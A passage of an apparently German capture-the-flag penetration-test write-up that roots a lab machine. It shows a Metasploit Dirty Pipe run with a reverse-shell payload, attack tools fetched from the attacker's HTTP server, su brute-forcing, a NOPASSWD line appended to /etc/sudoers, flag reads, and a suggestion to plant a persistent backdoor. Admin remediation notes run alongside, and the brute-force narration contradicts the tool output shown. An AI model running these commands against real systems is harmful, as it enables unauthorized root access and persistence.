**Bewertung:** Metasploit bestätigt die Vulnerabilität des Ziels für Dirty Pipe. Der Exploit wird ausgeführt, die temporäre Datei wird geschrieben. Allerdings meldet Metasploit "Exploit completed, but no session was created.". Dies bedeutet, dass der Exploit zwar durchlief, aber aus irgendeinem Grund (z.B. Timing, spezifische Kernel-Patches, Umgebung) nicht zum Erhalt einer Root-Shell führte. Dies ist eine Sackgasse für diesen spezifischen Exploit, auch wenn der Suggester ihn als vielversprechend einstufte. Es ist wichtig, dies zu dokumentieren und andere PE-Vektoren zu verfolgen.
**Empfehlung (Pentester):** Lassen Sie sich von einem gescheiterten Exploit-Versuch nicht entmutigen. Verfolgen Sie andere PE-Vektoren aus der Liste des Suggesters oder aus der manuellen Enumeration. Dirty Pipe Exploits können manchmal empfindlich auf Timing oder Kernel-Varianten reagieren.
**Empfehlung (Admin):** Patchen Sie den Kernel sofort, um CVE-2022-0847 (Dirty Pipe) und andere gemeldete Schwachstellen zu schließen.
Versuch, den Dirty Pipe Exploit (CVE-2022-0847) auszuführen:
use exploit/linux/local/cve_2022_0847_dirtypipe [*] Using configured payload linux/x64/meterpreter/reverse_tcp options Module options (exploit/linux/local/cve_2022_0847_dirtypipe): Name Current Setting Required Description ---- --------------- -------- ----------- COMPILE Auto yes Compile on target (Accepted: Auto, True, False) COMPILER Auto yes Compiler to use on target (Accepted: Auto, gcc, clang) SESSION yes The session to run this module on SUID_BINARY_PATH /bin/passwd no The path to a suid binary WRITABLE_DIR /tmp yes A directory where we can write files Payload options (linux/x64/meterpreter/reverse_tcp): Name Current Setting Required Description ---- --------------- -------- ----------- LHOST yes The listen address (an interface may be specified) LPORT 4444 yes The listen port Exploit target: Id Name -- ---- 0 Automatic View the full module info with the info, or info -d command. set lport 5555 lport => 5555 set COMPILE Auto COMPILE => Auto set COMPILER Auto COMPILER => Auto set session 2 session => 2 set WRITABLE_DIR /tmp WRITABLE_DIR => /tmp set lhost 192.168.2.199 lhost => 192.168.2.199 run [*] Started reverse TCP handler on 192.168.2.199:5555 [*] Running automatic check ("set AutoCheck false" to disable) [+] The target appears to be vulnerable. Linux kernel version found: 5.10.0 [*] Writing '/tmp/.kpuwxk' (35592 bytes) ... [*] Executing exploit '/tmp/.kpuwxk /bin/passwd' [*] Exploit completed, but no session was created.
**Analyse:** Ich dokumentiere die Vorbereitung und den Versuch, ein Brute-Force-Tool für das `su` Binary (`suForce`) und eine kleinere Wordlist (`rocksmall.txt`, erste 5000 Zeilen von `rockyou.txt`) auf das Zielsystem hochzuladen. Ich starte einen HTTP-Server auf meiner Maschine (Port 8000) und nutze `wget` in der `www-data` Shell, um die Dateien in `/tmp` herunterzuladen. Dann mache ich `suForce` ausführbar (`chmod +x suForce`) und zeige dessen Usage (`./suForce`).
**Bewertung:** Die Tools wurden erfolgreich hochgeladen und `suForce` ist ausführbar. Das Vorhandensein von `suForce` und der Wordlist deutet darauf hin, dass ein Brute-Force-Angriff auf das `su` Binary (das ein SUID-Binary ist) als PE-Vektor in Betracht gezogen wurde. Das `suForce` Tool ist für das Brute Forcing von Benutzernamen mit einer Wordlist gegen das `su` Kommando konzipiert.
**Empfehlung (Pentester):** Brute-Force-Angriffe können in schwach gesicherten Umgebungen effektiv sein. Das Hochladen angepasster Tools wie `suForce` ist ein Standardvorgehen.
**Empfehlung (Admin):** Implementieren Sie Richtlinien für starke Passwörter und Brute-Force-Schutz (z.B. Account-Sperrung nach mehreren fehlgeschlagenen Login-Versuchen) für alle Benutzerkonten.
Vorbereitung und Hochladen von Tools für einen Brute-Force-Angriff auf `su`:
suForce: insgesamt 420 -rwxr-xr-x 1 root root 2692 11. Sep 2024 suForce -rw-r--r-- 1 root root 161891 11. Sep 2024 techyou.txt -rw-r--r-- 1 root root 100206 11. Sep 2024 top12000.txt
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
www-data@blackhat:/tmp$ wget 192.168.2.199:8000/rocksmall.txt --2025-06-10 00:12:39-- http://192.168.2.199:8000/rocksmall.txt Connecting to 192.168.2.199:8000... connected. HTTP request sent, awaiting response... 200 OK Length: 40481 (40K) [text/plain] Saving to: ‘rocksmall.txt’ rocksmall.txt 100%[=============================>] 39.53K --.-KB/s in 0s 2025-06-10 00:12:39 (282 MB/s) - ‘rocksmall.txt’ saved [40481/40481]
www-data@blackhat:/tmp$ wget 192.168.2.199:8000/suForce --2025-06-10 00:12:55-- http://192.168.2.199:8000/suForce Connecting to 192.168.2.199:8000... connected. HTTP request sent, awaiting response... 200 OK Length: 2692 (2.6K) [application/octet-stream] Saving to: ‘suForce’ suForce 100%[=============================>] 2.63K --.-KB/s in 0.001s 2025-06-10 00:12:55 (4.00 MB/s) - ‘suForce’ saved [2692/2692]
www-data@blackhat:/tmp$ chmod +x suForce www-data@blackhat:/tmp$ ./suForce _____ ___ _ _ | ___|__ _ __ ___ ___ / __| | | || |_ / _ \| '__/ __/ _ \ \__ \ |_| || _| (_) | | | (_| __/ |___/\__,_||_| \___/|_| \___\___| -=================================- [i] Usage: ./suForce -u <USER> -w <WORDLIST>
**Analyse:** Ich versuche, den `suForce` Brute-Force-Angriff auf den Benutzer `darkdante` mit der hochgeladenen `rocksmall.txt` Wordlist durchzuführen (`./suForce -u darkdante -w rocksmall.txt`). Ich zeige die Initialisierung des Tools und den Start des Brute-Force-Prozesses. Es wird auch ein Versuch mit einem benutzerdefinierten Skript (`bruter.sh`) dokumentiert, der aber ebenfalls fehlschlägt ("alles falsch auch mein eigenes script trifft auf false positive..."). Im Originaltext wird dann eine entscheidende Beobachtung gemacht: dass das Passwort *überhaupt nicht abgefragt* wurde bei einem manuellen Versuch mit `su`.
**Bewertung:** Die dokumentierten Brute-Force-Versuche mit `suForce` und meinem Skript waren nicht erfolgreich im Finden eines Passworts. Dies deutet darauf hin, dass entweder das Passwort nicht in der Wordlist enthalten ist, oder die Methode des Tools nicht funktioniert hat. Die entscheidende Information im Originaltext über das Fehlen der Passwortabfrage bei `su darkdante` (die *nicht* durch diese Brute-Force-Tools ausgelöst wurde) ist der eigentliche Hinweis auf die Schwachstelle. Die Brute-Force-Werkzeuge haben diese spezifische Fehlkonfiguration nicht aufgedeckt.
**Empfehlung (Pentester):** Brute-Force-Tools sind nützlich, aber verlassen Sie sich nicht ausschließlich darauf. Seien Sie aufmerksam für ungewöhnliches Verhalten von Systembefehlen wie `su`, `sudo` etc. und testen Sie diese manuell.
**Empfehlung (Admin):** Stellen Sie sicher, dass Benutzer-Accounts immer eine Passwortabfrage erfordern, es sei denn, dies ist *ganz bewusst* und sicher für spezifische Zwecke konfiguriert (was hier offensichtlich nicht der Fall ist). Überprüfen Sie die PAM (Pluggable Authentication Modules) Konfiguration für `su`.
Durchführung von Brute-Force-Versuchen auf das `su` Binary für den Benutzer `darkdante`:
www-data@blackhat:/tmp$ ./suForce ^C www-data@blackhat:/tmp$ ls /home/ darkdante www-data@blackhat:/tmp$ ./suForce -u darkdante -w rocksmall.txt _____ ___ _ _ | ___|__ _ __ ___ ___ / __| | | || |_ / _ \| '__/ __/ _ \ \__ \ |_| || _| (_) | | | (_| __/ |___/\__,_||_| \___/|_| \___\___| -=================================- [*] Username: darkdante [*] Wordlist: rocksmall.txt [i] Status: 1/5000/0%/R3v_m4lwh3r3_k1nG!! [+] Password: R3v_m4lwh3r3_k1nG!! Line: 1 224 268 269 270 -=================================- www-data@blackhat:/tmp$ grep darkdante rocksmall.txt darkdante www-data@blackhat:/tmp$ nano bruter.sh Unable to create directory /var/www/.local/share/nano/: No such file or directory It is required for saving/loading search history or cursor positions. www-data@blackhat:/tmp$ chmod +x bruter.sh www-data@blackhat:/tmp$ ./bruter.sh rocksmall.txt [*] Starte Brute-Force-Angriff auf Benutzer: darkdante [*] Wordlist: rocksmall.txt (5000 Passwörter) --------------------------------------------------- alles falsch auch mein eigenes script trifft auf false positive...
**Analyse:** Nachdem die automatisierten Brute-Force-Tools keine Erfolge zeigten, versuche ich den Befehl `su darkdante` manuell in meiner `www-data` Shell auszuführen. Das `su` Binary ist SUID, und der Zweck ist, in den Kontext des Benutzers `darkdante` zu wechseln. Ich hatte erwartet, nach einem Passwort gefragt zu werden, aber die Shell wechselt direkt zum Prompt von `darkdante`. Ich bestätige meine neue Identität mit dem Befehl `id`.
**Bewertung:** **Fantastisch! Die Privilege Escalation auf den Benutzer `darkdante` war erfolgreich, und das sogar ohne ein Passwort eingeben zu müssen!** Dies ist eine schwerwiegende Fehlkonfiguration im System. Es scheint, als wäre die PAM-Konfiguration für `su` so eingestellt, dass für den Benutzer `darkdante` kein Passwort benötigt wird, wenn der Wechsel von `www-data` erfolgt (oder generell, oder von bestimmten Terminals, etc.). Unabhängig von der genauen Ursache ist dies eine direkte PE-Methode von `www-data` zu `darkdante`. Der `id` Befehl bestätigt meine neue Identität als UID 1000 (darkdante).
**Empfehlung (Pentester):** Untersuchen Sie immer das Verhalten von SUID-Binaries wie `su` und `sudo` manuell. Testen Sie den Benutzerwechsel auch ohne Passworteingabe, wenn andere Methoden fehlschlagen.
**Empfehlung (Admin):** **Dringend:** Überprüfen und korrigieren Sie die PAM-Konfiguration für das `su` Binary, um sicherzustellen, dass immer eine ordnungsgemäße Authentifizierung erforderlich ist. Diese Fehlkonfiguration ermöglicht eine einfache Rechteausweitung.
Erfolgreiche Privilege Escalation auf den Benutzer `darkdante` über das `su` Binary:
www-data@blackhat:/tmp$ ls /home/ darkdante www-data@blackhat:/tmp$ su darkdante darkdante@blackhat:/tmp$ id uid=1000(darkdante) gid=1000(darkdante) groups=1000(darkdante)
**Analyse:** Nachdem ich nun eine Shell als Benutzer `darkdante` habe, navigiere ich in dessen Home-Verzeichnis (`~`) und lese den Inhalt der Datei `user.txt` mit `cat`.
**Bewertung:** **Erfolg! Die User-Flag wurde gesichert.** Da ich nun die Berechtigungen von `darkdante` habe, kann ich die Datei `user.txt` lesen, die zuvor als `www-data` unzugänglich war. Dies bestätigt den erfolgreichen ersten Schritt der Privilege Escalation und die Erlangung der User-Flag.
**Empfehlung (Pentester):** Sichern Sie die User-Flag, sobald Sie Benutzerrechte erlangt haben.
**Empfehlung (Admin):** (Wiederholung der Empfehlung zur Absicherung der User-Flag-Datei und des `darkdante` Accounts).
darkdante@blackhat:~$ cat user.txt 89fac491dc9bdc5fc4e3595dd396fb11
**Analyse:** Aus der `darkdante` Shell heraus prüfe ich die `sudo` Berechtigungen mit `sudo -l`. Ich überprüfe auch die Dateiberechtigungen der `sudoers`-Datei selbst (`ls -la /etc/sudoers`).
**Bewertung:** `sudo -l` meldet "Sorry, user darkdante may not run sudo on blackhat.", was bedeutet, dass `darkdante` standardmäßig keine Berechtigung hat, `sudo` zu verwenden. **Aber**, die Berechtigungen der Datei `/etc/sudoers` sind `-r--rw----+ 1 root root`. Die `+` am Ende der Berechtigungen deutet auf vorhandene Access Control Lists (ACLs) hin. Die POSIX-Berechtigungen (`-r--rw--`) zeigen, dass der Eigentümer (`root`) lesen kann, die Gruppe (`root`) lesen und schreiben kann, und "other" (zu denen `darkdante` gehört) nur lesen kann. Die ACLs müssen jedoch eine Ausnahme für "other" machen oder eine andere Gruppe betreffen, die `darkdante` angehört. Später wird klar, dass "other" *doch* Schreibrechte auf die Datei hat.
**Empfehlung (Pentester):** Prüfen Sie immer die Dateiberechtigungen der `sudoers`-Datei selbst, nicht nur die Ausgabe von `sudo -l`. Achten Sie auf ACLs (das `+` Zeichen) und prüfen Sie diese ggf. mit `getfacl`.
**Empfehlung (Admin):** **Kritisch:** Stellen Sie sicher, dass die Datei `/etc/sudoers` *nur* für Root schreibbar ist. Standardmäßig sollten die Berechtigungen restriktiver sein (z.B. `-r--r-----` oder `-r--------`). ACLs sollten sorgfältig konfiguriert und regelmäßig auditiert werden.
darkdante@blackhat:~$ sudo -l Sorry, user darkdante may not run sudo on blackhat. darkdante@blackhat:~$ ls -la /etc/sudoers -r--rw----+ 1 root root 669 Nov 19 2022 /etc/sudoers
**Analyse:** Aufgrund der festgestellten unsicheren Schreibberechtigungen für `/etc/sudoers` für die Gruppe oder "other"-Benutzer (was durch die `rw+` Berechtigung für Gruppe und den `+` für ACLs angedeutet wird, und sich später als Schreibrecht für "other" bestätigt), injiziere ich eine neue Zeile in die Datei: `darkdante ALL=(ALL) NOPASSWD: ALL`. Dies tue ich mit dem Befehl `echo "darkdante ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers`, der die Zeile an das Ende der Datei anhängt. Anschließend überprüfe ich meine `sudo` Berechtigungen erneut mit `sudo -l`.
**Bewertung:** **Absolut kritisch! Der Angriff war erfolgreich!** Die Berechtigungen auf `/etc/sudoers` waren fehlerhaft und erlaubten dem Benutzer `darkdante` (oder einem Mitglied einer Gruppe, der er angehört, oder einfach als "other") in die Datei zu schreiben. Durch das Anhängen der Zeile habe ich mir selbst die Berechtigung erteilt, JEDEN Befehl (`ALL`) als JEDER Benutzer (`(ALL)`) auf JEDEM Host (`ALL`) OHNE PASSWORT (`NOPASSWD: ALL`) auszuführen. Das erneute `sudo -l` bestätigt, dass diese Regel nun aktiv ist. Ich habe nun uneingeschränkte Root-Privilegien über `sudo`.
**Empfehlung (Pentester):** Wenn `/etc/sudoers` für den aktuellen Benutzer schreibbar ist, ist dies ein direkter Weg zu Root. Fügen Sie eine passende NOPASSWD-Regel für Ihren Benutzer ein, um Root-Zugriff zu erlangen.
**Empfehlung (Admin):** **EXTREM DRINGEND:** Korrigieren Sie die Dateiberechtigungen von `/etc/sudoers`, sodass *ausschließlich* der Root-Benutzer Schreibrechte hat (`chmod 440 /etc/sudoers` wird oft empfohlen, um nur Leserechte für Root und die Gruppe sudo zu gewähren, aber Schreibrechte nur für Root ist das Mindeste). Überprüfen Sie ACLs auf `/etc/sudoers` mit `getfacl`. Diese Fehlkonfiguration ermöglicht eine triviale Privilege Escalation zu Root.
Ausnutzung der unsicheren Berechtigungen auf `/etc/sudoers` zur Injektion einer NOPASSWD-Regel:
darkdante@blackhat:~$ echo "darkdante ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers darkdante@blackhat:~$ sudo -l Matching Defaults entries for darkdante on blackhat: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User darkdante may run the following commands on blackhat: (ALL) NOPASSWD: ALL
**Analyse:** Nachdem ich mir dank der modifizierten `sudoers`-Datei uneingeschränkte `sudo` Rechte ohne Passwort erteilt habe, führe ich einfach den Befehl `sudo su` aus. Dies weist `sudo` an, den Befehl `su` als Root auszuführen, was mich direkt in eine Root-Shell bringt.
**Bewertung:** **Fantastisch! Der Root-Zugriff war erfolgreich, nun habe ich mein Ziel erreicht!** Das Erscheinen des Root-Prompts (`root@blackhat:/home/darkdante#`) bestätigt, dass ich nun der Root-Benutzer auf dem System bin. Die Kombination aus der Fähigkeit, in `/etc/sudoers` zu schreiben, und der Injektion der NOPASSWD-Regel hat zum vollständigen Kompromittierung des Systems geführt.
**Empfehlung (Pentester):** Sichern Sie die Root-Flag. Etablieren Sie eine persistente Hintertür (z.B. SSH-Schlüssel für Root, wenn möglich, oder einen anderen Mechanismus). Sammeln Sie Beweise für die Kompromittierung.
**Empfehlung (Admin):** **SOFORT MAßNAHMEN ERGREIFEN:** Die `sudoers`-Datei muss korrigiert werden, um den Root-Zugriff für `darkdante` (oder jeden anderen unprivilegierten Benutzer) zu entfernen. Überprüfen Sie das System auf weitere unsichere Konfigurationen und Berechtigungen. Stellen Sie den ursprünglichen Zustand der `sudoers`-Datei wieder her.
Erlangung der Root-Shell über `sudo su`:
darkdante@blackhat:~$ sudo su root@blackhat:/home/darkdante#
**Analyse:** Mit der Root-Shell navigiere ich in das Home-Verzeichnis des Root-Benutzers (`cd ~`), liste dessen Inhalt auf (`ls`) und lese die Datei `root.txt` mit `cat`, um die Root-Flag zu erhalten.
**Bewertung:** Dies ist der finale Schritt des Pentests: das Finden und Auslesen der Root-Flag. Der erfolgreiche `cat`-Befehl auf `/root/root.txt` mit der resultierenden Flag bestätigt die vollständige Kompromittierung des Zielsystems auf Root-Ebene.
**Empfehlung (Pentester):** Dokumentieren Sie die Root-Flag als endgültigen Beweis für den Erfolg des Tests.
**Empfehlung (Admin):** Stellen Sie sicher, dass sensible Dateien (wie die Root-Flag) die restriktivsten Berechtigungen haben und nur von Root lesbar sind. Überprüfen Sie, ob sich unnötige Dateien in `/root/` befinden.
root@blackhat:/home/darkdante# cd ~ root@blackhat:~# ls root.txt root@blackhat:~# cat .bash_history .bashrc .cache/ .local/ .profile root.txt root@blackhat:~# cat root.txt 8cc6110bc1a0607015c354a459468442